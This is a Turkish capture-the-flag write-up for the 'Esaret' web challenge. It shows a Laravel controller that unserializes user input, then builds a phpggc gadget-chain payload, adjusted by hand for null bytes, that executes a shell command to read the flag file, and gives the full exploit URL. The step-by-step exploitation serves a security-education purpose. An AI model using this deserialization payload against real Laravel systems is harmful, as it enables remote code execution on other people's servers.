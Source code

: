 # Esaret - Web 400


```
http://34.205.154.108  

```
URL'ye gittik ve karsimiza bu  geldi
![](EsaretFirst.png)

ALttaki kismi decode edip html olarak geri koyduk.

``` php

<?php

namespace App\Http\Controllers;

use Illuminate\Foundation\Bus\DispatchesJobs;
use Illuminate\Http\Request;
use Illuminate\Routing\Controller as BaseController;
use Illuminate\Foundation\Validation\ValidatesRequests;
use Illuminate\Foundation\Auth\Access\AuthorizesRequests;

class Controller extends BaseController
{
    use AuthorizesRequests, DispatchesJobs, ValidatesRequests;

    public function home(Request $request)
    {
        $data = $request->get('data');

        // show welcome, hide /flag.txt
        if(false == $request->has('data'))
            return view('welcome',  ['code' => highlight_file(__FILE__,true)]);

        // Check
        if($request->get('checksum') !== md5($data))
            abort(403, "Esaret..!");

        // Look for the class we want
        $object = unserialize(base64_decode($data));
        if(isset($object['c']))
        {
            $object['c']->open();
        }
        return view('welcome');
    }

    public function phpinfo()
    {
        phpinfo();
    }
}

```

`data` parametrisne `base64` gelen veri, `checksum` parametresi ile uyusuyorsa `base64` decode edilip `unserialize` ediliyordu.
`c` arreyini open metodu ile cagiriliyordu. En basta amele gibi class ismi arasakta birsey elde edemedik.

Uzunca bir arastirma sornasi ( 4 gün uyumadan )
[şöyle](https://github.com/ambionics/phpggc) birşeye denk geldik içinde laravel içinde `RCE` bulunmakta idi. Tamam diyip yola koyulduk.

```
th3-j4ck4l:~$ phpggc laravel/rce1 'cat /var/www/html/public/flag.txt' -s
O:40:"Illuminate\Broadcasting\PendingBroadcast":2:{s:9:"%00*%00events";O:15:"Faker\Generator":1:{s:13:"%00*%00formatters";a:1:{s:8:"dispatch";s:6:"assert";}}s:8:"%00*%00event";s:33:"cat /var/www/html/public/flag.txt";}
```

Şeklinde çıktı veriyordu. Bu çıktı `-s` parametresi yüzünden `urlencode` edilmiş haliydi. Bunu `c` arrayine atıp çalıştırmak istedik.

``` php
<?php

$tmp=unserialize(urldecode('O:40:"Illuminate\Broadcasting\PendingBroadcast":2:{s:9:"%00*%00events";O:15:"Faker\Generator":1:{s:13:"%00*%00formatters";a:1:{s:8:"dispatch";s:6:"assert";}}s:8:"%00*%00event";s:33:"cat /var/www/html/public/flag.txt";}'));

$dizi = array(
    "c" => $tmp
);
print_r(serialize($dizi));

 ?>
```

ile bunu `c` arrayine attık.

``` php
a:1:{s:1:"c";O:40:"Illuminate\Broadcasting\PendingBroadcast":2:{s:9:"*events";O:15:"Faker\Generator":1:{s:13:"*formatters";a:1:{s:8:"dispatch";s:6:"assert";}}s:8:"*event";s:33:"cat /var/www/html/public/flag.txt";}}
```
 fakat çıktıda hata vardı. `urlencode`'ta olan `nullbyte`'lar kayboluyordu. onlarıda eklememiz gerekecekti

 ``` php
a:1:{s:1:"c";O:40:"Illuminate\Broadcasting\PendingBroadcast":2:{S:9:"\00*\00events";O:15:"Faker\Generator":1:{S:13:"\00*\00formatters";a:1:{S:8:"dispatch";s:6:"system";}}S:8:"\00*\00event";s:33:"cat /var/www/html/public/flag.txt";}}
 ```

 bunu `base64` ile encode edip `MD5` ile sumunu alıp yolladığımızda [ise](http://34.205.154.108/index.php?data=YToxOntzOjE6ImMiO086NDA6IklsbHVtaW5hdGVcQnJvYWRjYXN0aW5nXFBlbmRpbmdCcm9hZGNhc3QiOjI6e1M6OToiXDAwKlwwMGV2ZW50cyI7TzoxNToiRmFrZXJcR2VuZXJhdG9yIjoxOntTOjEzOiJcMDAqXDAwZm9ybWF0dGVycyI7YToxOntTOjg6ImRpc3BhdGNoIjtzOjY6InN5c3RlbSI7fX1TOjg6IlwwMCpcMDBldmVudCI7czozMzoiY2F0IC92YXIvd3d3L2h0bWwvcHVibGljL2ZsYWcudHh0Ijt9fQ==&checksum=e0a4da073c328ba83afa67a0a09766eb) ;

![](flag.png)

flag karşımızda idi;


```
DKHOS_{EsaRetTenKurTuluSGeREKTirirCEsAReT}
```
